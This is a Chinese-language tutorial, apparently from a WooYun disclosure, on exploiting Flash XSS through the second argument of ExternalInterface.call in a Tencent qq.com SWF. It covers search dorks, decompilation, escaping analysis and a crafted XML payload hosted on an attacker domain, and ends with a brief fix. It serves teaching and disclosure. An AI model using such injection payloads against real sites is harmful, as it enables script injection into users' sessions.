









# 16\. Flash Xss 进阶 [ExternalInterface.call 第二个参数]

> 来源：[16\. Flash Xss 进阶 [ExternalInterface.call 第二个参数]](http://www.wooyun.org/bugs/wooyun-2010-016598)

## 简要描述

讲完 ExternalInterface.call 的第一个参数，我们接着来讲第“2”个参数，之所以 2 打上引号，因为 call 函数的原型是：

`call(functionName:String, ... arguments):*`， 即后面可以有很多很多个参数，我们统称为第 2 个参数。有时候我们会遇到 `ExternalInterface.call("xxxxx","可控内容");`的情况，那么这种情况下，如何构造 XSS 呢？

1\. 有了上一节教程的基础，这次我们直接见实例。

通过 GOOGLE 搜索，site:qq.com filetype:swf inurl:xml 我们可以找到以下 FLASH。

```
http://imgcache.qq.com/qzone_v4/2/default_menu_horizontal.swf?xml_path=http://imgcache.qq.com/qzone/client/custom_men u/custom_menu.xml 
```

2\. 借鉴上上节教程的思路，我们可以看看 [`imgcache.qq.com/qzone/client/custom_menu/custom_menu.xml`](http://imgcache.qq.com/qzone/client/custom_menu/custom_menu.xml) 里是个什么内容。



3\. 好像看不出来是个啥用途，我们反编译 FLASH 文件。



4\. 接着我们先看看是否有 getURL, `ExternalInterface.call` 之类的。



可以看到，我们搜索到的是下面这句：

```
flash.external.ExternalInterface.call("custom_menu_swf", menu_array[_local2].href); 
```

那么 call 的第一个参数是被限定死了～，第 2 个参数为 `menu_array[_local2].href`，如果你对 AS 有一点了解，不难看出 `menu_array` 是一个数组，那么`_local2` 应该就是数组的下标， 而从单词含义“菜单数组”我们不难联想到上面 xml 文件里的数据。



5\. 换句话说，这里我们的可以控制 call 的第 2 个参数。同教程 14 中的方法，我们下来

```
http://imgcache.qq.com/qzone/client/custom_menu/custom_menu.xml 。 
```

先做点修改，然后上传到自己网站上。 我们将代码里日志那一行的 href 改掉。

```
<menu name="日 志" href="\&quot;,alert(1)" /> 
```

上传修改后的文件，同时记得将 crossdomain.xml 上传至自己的网站根目录下哦～～（见教程 14）

6\. 接着我们载入我们自己指定的 XML 文件。

```
http://imgcache.qq.com/qzone_v4/2/default_menu_horizontal.swf?xml_path=http://itsokla.duapp.com/custom_menu.xml 
```

7\. 接着我们打开 Firefox 浏览器。 有人会问，你怎么突然要用 Firefox 啊！疯了么！！ 同志们，我没疯，只是因为 FF 可以捕获到这 里的错误，而 chrome 捕获不到！

我们打开 Firefox 后， 访问上面的地址，点击【日志】按钮！！ Ctrl+shift+J 打开错误控制台！可以看到以下报错！



8\. 记性好的朋友，会马上想起上一节里我们说到的。

```
ExternalInterface.call("函数名","参数 1"); 
```

实际上执行的是以下内容，

```
try { flash toXML(函数名("参数 1")) ; } catch (e) { "<undefined/>"; } 
```

我们就是从 FF 这里捕获错误到这点的！（:) 当然也还会有其他方法）。 为什么会出错呢? 我们一起来看看。

9\. 当我们点击 【日志】按钮时，会调用。

```
flash.external.ExternalInterface.call("custom_menu_swf", menu_array[_local2].href); 
```

而 `menu_array[_local2].href` 等于 `\",alert(1)`, 进而，我们代入完整的代码，即如下：

```
try { flash toXML(custom_menu_swf("\\",alert(1)")) ; } catch (e) { "<undefined/>"; } 
```

转换过程如下图：



可以看到转换之后，JS 代码有点乱，引号到处飞，括号无处寻，因而报错了！

10\. 那么我们怎么构造正确的利用代码呢？其实有上一节的知识并不难！

```
try { flash toXML(custom_menu_swf("构造点构造点")) ; } catch (e) { "<undefined/>"; } 
```

首先第一步，要注入自己代码，首先要闭合掉双引号！

```
try { flash toXML(custom_menu_swf("构造点"),alert("构造点")) ; } catch (e) { "<undefined/>"; } 
```

但是从上面转换流程，我们可以看到， `"` 会变成 `\"`, 即变成了下面的样子，还是突破不出去。

```
try { flash toXML(custom_menu_swf("构造点\"),alert(\"构造点")) ; } catch (e) { "<undefined/>"; } 
```



不过非常庆幸的事情是，这里没有对 `\` 进行转义。 我们可以通过输入 `\"` 来构造。JS 的字符串里，`\` 用 `\\` 表示。如下：

```
try { flash toXML(custom_menu_swf("构造点\\"))}catch(e){alert(1)}//构造点")) ; } catch (e) { "<undefined/>"; } 
```

图片分析如下：



11\. 罗嗦了这么多，我们把构造点代码，拿出来，插入到 XML 文件里。注意以下几点：

11.1 最后构造的代码是`\\"`, 实际我们的输入是`\"`，然后由 FLASH 自己转变为`\\"`的，因而利用代码里只需要输入`\"`即可。

11.2 由于在 XML 的节点属性里，双引号写为 `&quot;`

```
<menu name="日 志" href="构造点\&quot;))}catch(e){alert(1)}//构造点" /> 
```

12\. 再次上传文件。打开

```
http://imgcache.qq.com/qzone_v4/2/default_menu_horizontal.swf?xml_path=http://itsokla.duapp.com/custom_menu.xml 
```

点击日志，看看效果。



## 修复方案

1\. 禁止调用第三方的外部 XML 文件。